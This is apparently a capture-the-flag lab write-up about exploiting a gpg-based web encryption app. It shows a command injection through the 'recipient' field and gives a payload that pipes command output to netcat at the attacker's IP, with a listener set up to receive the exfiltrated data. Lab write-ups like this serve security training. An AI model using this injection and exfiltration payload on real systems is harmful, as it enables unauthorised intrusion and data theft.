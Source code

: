 After pivoting through their internal network, we have found yet another encryption tool. Can you hack into the server and extract the secret data? Our intel tells us that the app is using the gpg tool.
Start the machine below and access the web app at `http://MACHINE_IP:5000`.

---

- To encrypt files, the website uses the `gpg` tool (we know this from the response file extension)
![](img/2025-03-25 23_28_13-DarkMatter Encryptor - Brave.png)

- The website is vulnerable to command injection into the `recipient`
- the website first check if the recipient is a one from the list. so in malicious command we should use recipient like Cipher or another from list Then use `;` to separate it from our command.
- We add a malicious command that consists of two parts: one containing standard commands like `ls` or `cat`... and another using the `netcat` tool. We combine them using piping:  `Cipher ; malicious_command | nc YOUR_IP_ADDR 4444 ;`
- we can use burp suite to edit recipient input.
- Before send the payload, you need to set up a `Netcat listener` to receive the exfiltrated data.



![[2025-03-25 23_55_52-kali-linux-2024.4-vmware-amd64 - VMware Workstation.png]]

>response 

![[2025-03-26 00_01_17-kali-linux-2024.4-vmware-amd64 - VMware Workstation.png]]
> the exploitation is work and , we find the flag file , now we need just to `cat` content of flag file

![[2025-03-26 00_04_09-kali-linux-2024.4-vmware-amd64 - VMware Workstation.png]]

![[2025-03-26 00_05_32-kali-linux-2024.4-vmware-amd64 - VMware Workstation.png]]




